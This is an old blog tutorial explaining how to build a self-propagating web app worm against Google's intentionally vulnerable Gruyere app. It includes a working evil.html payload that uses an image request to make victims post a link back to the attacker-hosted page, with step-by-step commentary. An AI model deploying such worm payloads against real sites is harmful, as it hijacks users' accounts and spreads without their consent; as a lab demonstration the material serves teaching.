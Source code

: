 ```yaml
---
title: "how to write a web app worm"
date: "2010-11-06"
layout: post
---
```


![](/assets/worm.png "worm")When I say web app worm I mean a web site specific worm such as twitter. Twitter [has been picked](http://www.metro.co.uk/tech/842197-wtf-worm-sees-twitter-swamped-by-goat-sex) on (they should be because it's a meaningless app) when it comes to [web app worms](http://www.guardian.co.uk/technology/pda/2010/sep/22/twitter-onmouseover-worm) so why stop now. There are other types of worms that could include web servers and databases but that won't be addressed in this write up. The web app I'll pick on for this example is [Gruyere](http://google-gruyere.appspot.com/). Gruyere is an intentional vulnerable application that a handful of folks over at google wrote to point out some of the major vulnerabilities within web applications. Gruyere is very twitter like so my example would be relevant to other applications that function in similar ways.


Most web site worms spread because they allow javascript to be inserted somewhere into the web application. For example in twitter when a status is updated (via a moronic "tweet") you are allowed to insert words, sentences, and even links to other interesting sites. If twitter allows you to input all this information what do they block? Javascript is a well known programming language that you should never allow to be inserted into your web application. Even though many web developers know this they continually make mistakes and allow javascript to be inserted into their web apps. There are different categories of javascript attacks such as [XSS](http://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29) and [XSRF](http://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29), I'm not a big fan of this naming convention but  you should be familiar with the terms and what they mean. Most all web app worms are spread via the XSRF attack. Basically a XSRF attack is where javascript (possibly other languages) is inserted into the web app, that javascript will then make a request on behalf of the user. This request could be malicious in nature or in case of the twitter worm examples just for fun. The example I'll be going over will be a classic XSRF attack where I'll insert javascript to make requests on behalf of the user.

Let's get started. I went ahead and created several accounts within Gruyere to demo the attack, in this case Travis will be the attacker.

![](images/Selection_082.png "Selection_082")](http://travisaltman.com/wp-content/Selection_082.png)

To create a web app worm first you'll need to discover a vulnerability within a web app that allows you to insert javascript. Luckily the "New Snippet" functionality will allow us to insert javascript. Now to find vulnerable input that allows you to insert javascript may not be that easy. In order to successfully insert javascript you'll need to be able to insert certain characters such as "<" and ">". One great tool to find these characters which will in turn find vulnearbilities is [Firefox addon named "XSS Me"](https://addons.mozilla.org/en-US/firefox/addon/7598/). XSS Me will tell if an input will allow certain characters. So now that we have vulnerable input how do we get this worm started? As the attacker I will place the following link into a new snippet.

![](/assets/Selection_083.png "Selection_083")

Now all I'm doing here is creating a link to my evil code, to create a worm you don't have to keep your evil code in another location you could insert all the evil code you need into the vulnerable web app itself. Most of the time inserting all of your evil code into the app itself would be ideal but it really depends on what the vulnerable app will allow you to do. Now that we've inserted a link to our evil code what exactly does our evil code look like, below is the source code in evil.html.

```html
<p <body onload="Wait();"><img src="http://google-gruyere.appspot.com/251625447516/newsnippet2?snippet=%3Ca%20href%3D%22http%3A%2F%2Ftravisaltman.com%2Fevil.html%22%3Ekitten%20videos%3C%2Fa%3E">
<script>
function Redirect()
{
window.location="http://google-gruyere.appspot.com/251625447516/";
}
function Wait()
{
setTimeout("Redirect()", 1000);
}
</script>
```

Now let's break evil.html down line by line. All the magic is happening in line one. The first thing that is written is the html paragraph tag "<p", this is done specifically for this app because anything after the <p> tag would allow other characters. Next is the html body tag with an "onload" action. An action in malicious code is common so that the attacker perform other steps, another common action event is an onmouseover event. Once the page loads it will call the "Wait" function, we'll come back to that in just a bit. After the wait is the image tag (<img>) to make the XSRF request for me. The request is to add a new snippet to whomever clicks on the link. In this case if a victim were to click on my link it would create a new snippet for them with a link saying "kitten videos". To add a new snippet within Gruyere the url would be the following

```html
http://google-gruyere.appspot.com/251625447516/newsnippet2?snippet=
```

Anything after the equal sign would show up as a new snippet so I inserted the following "malicious" snippet

```html
%3Ca%20href%3D%22http%3A%2F%2Ftravisaltman.com%2Fevil.html%22%3Ekitten%20videos%3C%2Fa%3E
```

So what does all that mess mean? If you take all that mess and url decode it's the following.

```html
<a href="http://travisaltman.com/evil.html">kitten videos</a>
```

In this case I had to [url encode](http://meyerweb.com/eric/tools/dencoder/) my attack so that it would work, this is not uncommon when performing these types of attacks. So as the attacker I'm placing a link inside a new snippet for the victim that says "kitten videos" but that link is still pointing to my evil.html. Now let's get back to the wait function. I won't break it down line by line but what happens is when the page fully loads the code will jump to the wait function on line seven. After that setTimeout will execute after one second which calls the Redirect function, the Redirect function will redirect the user to the home page of Gruyere. The whole point of everything after line one is to simply redirect the user back to the homepage after the attack. So now that we have planted the seed of attack let's see what happens when Alice clicks on our evil link.

![](/assets/Selection_084.png "Selection_084")

Just by clicking on our "evil" link Alice created a snippet that she herself didn't write, it was our malicious javascript that created the link. Now let's login as Bob and click on the "kitten videos" in Alice's snippets.

![](/assets/Selection_086.png "Selection_086")

Bob has now updated his snippets just by simply clicking on the link in Alice's snippet. You can now see how this can snowball much like other web app worms have spread as well. So in only a few lines of code I have created a worm that will replicate throughout the application infecting whomever clicks on my malicious link. The twitter worm was [very simple](http://www.wait-till-i.com/2010/09/26/new-twitter-exploit-how-it-works/) as well. I could have just as easily made it that if a user were to simply view my snippet that they would get infected as well. Once you allow javascript to be inserted into your app that are a number of things an attacker can do to manipulate your application.

Hopefully this small write up at least some what explains how web app worms get created and how simple they can be. Developers of major applications such as twitter need to better test and review code they have written. As one of my links points out a seventeen year old kid exploited the mighty twitter, just goes to show you how well major applications are focusing on their security. As a user I would never click on a link that you don't trust and turn off javascript for web apps that don't need javascript in the first place. If another worm pops up in twitter or facebook I won't be sad.
